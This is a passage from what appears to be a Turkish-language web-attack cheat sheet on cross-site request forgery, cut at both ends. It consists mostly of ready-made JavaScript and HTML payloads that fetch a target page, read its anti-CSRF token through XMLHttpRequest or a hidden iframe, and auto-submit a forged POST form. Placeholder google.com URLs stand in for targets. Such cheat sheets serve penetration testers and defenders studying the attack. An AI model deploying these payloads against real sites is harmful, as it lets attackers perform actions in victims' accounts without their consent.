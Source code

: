 ```javascript
// true on the end of here makes the call asynchronous
xhr.open("GET", GET_URL, true)
xhr.onload = function (e) {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
// Get the document from the response
page = xhr.response
// Get the input element
input = page.getElementById("token")
// Show the token
//console.log("The token is: " + input.value);
// Use the token to submit the form
submitFormWithTokenJS(input.value)
}
}
// Make the request
xhr.send(null)
}

var GET_URL = "http://google.com?param=VALUE"
var POST_URL = "http://google.com?param=VALUE"
getTokenJS()
```
### **CSRF Token'ı Çal ve bir iframe, form ve Ajax kullanarak bir Post isteği gönder**
```html
<form
id="form1"
action="http://google.com?param=VALUE"
method="post"
enctype="multipart/form-data">
<input type="text" name="username" value="AA" />
<input type="checkbox" name="status" checked="checked" />
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1() {
x1 = document.getElementById("i1")
x1d = x1.contentWindow || x1.contentDocument
t = x1d.document.getElementById("token").value

document.getElementById("token").value = t
document.getElementById("form1").submit()
}
</script>
<iframe
id="i1"
style="display:none"
src="http://google.com?param=VALUE"
onload="javascript:f1();"></iframe>
```
### **CSRF Token'ı Çal ve bir iframe ile bir form kullanarak POST isteği gönder**
```html
<iframe
id="iframe"
src="http://google.com?param=VALUE"
width="500"
height="500"
onload="read()"></iframe>

<script>
```
